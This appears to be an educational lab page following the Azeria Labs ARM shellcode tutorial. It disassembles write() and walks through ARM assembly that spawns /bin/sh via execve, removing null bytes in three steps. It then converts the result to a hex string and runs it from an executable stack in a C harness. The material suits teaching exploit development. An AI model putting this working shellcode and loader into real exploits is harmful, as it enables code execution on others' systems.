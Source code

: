 # Azeria Labs: Introduction To Writing ARM Shellcode

This is based on: https://azeria-labs.com/writing-arm-shellcode/.
This is the 32 bit Version.

Working directory is:
```
~/challenges/challenge42
```

## Understanding System Functions

We can check the source code of `write()`:

```
(gdb) disas write
Dump of assembler code for function write:
   0xf7763f80 <+0>:     ldr.w   r12, [pc, #74]  ; 0xf7763fce
   0xf7763f84 <+4>:     add     r12, pc
   0xf7763f86 <+6>:     ldr.w   r12, [r12]
   0xf7763f8a <+10>:    teq     r12, #0
   0xf7763f8e <+14>:    push    {r7}
   0xf7763f90 <+16>:    bne.n   0xf7763fa4 <write+36>
   0xf7763f92 <+18>:    movs    r7, #4
   0xf7763f94 <+20>:    svc     0
   0xf7763f96 <+22>:    pop     {r7}
   0xf7763f98 <+24>:    cmn.w   r0, #4096       ; 0x1000
   0xf7763f9c <+28>:    it      cc
   0xf7763f9e <+30>:    bxcc    lr
   0xf7763fa0 <+32>:    b.w     0xf76f2990 <__syscall_error>
   0xf7763fa4 <+36>:    push    {r0, r1, r2, r3, lr}
   0xf7763fa6 <+38>:    bl      0xf7777a88 <__libc_enable_asynccancel>
   0xf7763faa <+42>:    mov     r12, r0
   0xf7763fac <+44>:    pop     {r0, r1, r2, r3}
   0xf7763fae <+46>:    movs    r7, #4
   0xf7763fb0 <+48>:    svc     0
   0xf7763fb2 <+50>:    mov     r7, r0
   0xf7763fb4 <+52>:    mov     r0, r12
   0xf7763fb6 <+54>:    bl      0xf7777b10 <__libc_disable_asynccancel>
   0xf7763fba <+58>:    mov     r0, r7
   0xf7763fbc <+60>:    ldr.w   lr, [sp], #4
   0xf7763fc0 <+64>:    pop     {r7}
   0xf7763fc2 <+66>:    cmn.w   r0, #4096       ; 0x1000
   0xf7763fc6 <+70>:    it      cc
   0xf7763fc8 <+72>:    bxcc    lr
   0xf7763fca <+74>:    b.w     0xf76f2990 <__syscall_error>
```

And to re-write it in our own shellcode:
```
root@hlUbuntu32:~/challenges/challenge42# cat write.s
.data
string: .asciz "Azeria Labs\n"  @ .asciz adds a null-byte to the end of the string
after_string:
.set size_of_string, after_string - string

.text
.global _start

_start:
   mov r0, #1               @ STDOUT
   ldr r1, addr_of_string   @ memory address of string
   mov r2, #size_of_string  @ size of string
   mov r7, #4               @ write syscall
   swi #0                   @ invoke syscall

_exit:
   mov r7, #1               @ exit syscall
   swi 0                    @ invoke syscall

addr_of_string: .word string
```

Lets execute it:
```
root@hlUbuntu32:~/challenges/challenge42# ./write
Azeria Labs
```

## Syscall Number and Parameters

Execve Shellcode Source `execve1.s`:
```
/* execve() assembly code from the tutorial 'Writing ARM Shellcode' (https://azeria-labs.com/writing-arm-shellcode/),
first example containing null-bytes */

.section .text
.global _start

_start:
        add r0, pc, #12
        mov r1, #0
        mov r2, #0
        mov r7, #11
        svc #0

.ascii "/bin/sh\0"
```

Lets execute it:

```
root@hlUbuntu32:~/challenges/challenge42# ./execve1
#
```

## De-Nullify Shellcode

Execve Shellcode without NULL's in code Source `execve2.s`:
```
/* execve() assembly code from the tutorial 'Writing ARM Shellcode' (https://azeria-labs.com/writing-arm-shellcode/),
second example containing one null-byte */

.section .text
.global _start

_start:
        .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        mov r7, #11
        svc #1
        mov r5, r5

.ascii "/bin/sh\0"
```

Test it:
```
root@hlUbuntu32:~/challenges/challenge42# ./execve2
#
```

Execve without NULL in string source `execve3.s`:
```
/* execve() assembly code from the tutorial 'Writing ARM Shellcode' (https://azeria-labs.com/writing-arm-shellcode/), thrid example without null-bytes */
.section .text
.global _start

_start:
        .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        strb r2, [r0, #7]
        mov r7, #11
        svc #1

.ascii "/bin/shx"
```

Note: If you execute this, you'll receive a segmentation fault at the
`strb` instruction. Do you know the reason?


## Transform Shellcode into Hex string

Copy the content of the program into a separate file:
```
$ objcopy -O binary execve3 execve3.bin
```

And use the python script to convert it:
```
$ ./toshellcode.py execve3.bin
```

You can try it in the following program:
```
#include <stdio.h>
#include <string.h>

// Len: 28
char *shellcode = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78";

int main(void) {
        char s[32];
        memcpy(s, shellcode, 28);

        ( *( void(*)() ) s)();
}
```

Note that we have to copy the shellcode into a stack variable.
We also have to compile it with executable stack enabled.


# Questions

## Questions
* Why does `execve3` not execute?
* Why do we have to copy the shellcode to the stack in `execve3.s`?
* Why do we enable executable stack on `execve3.s` ?

## Answers
All three questions have the same answer. The shellcode is modifying part of
itself (the string), so it has to be writeable. But it will also be executed, so
we have to enable executable stack.
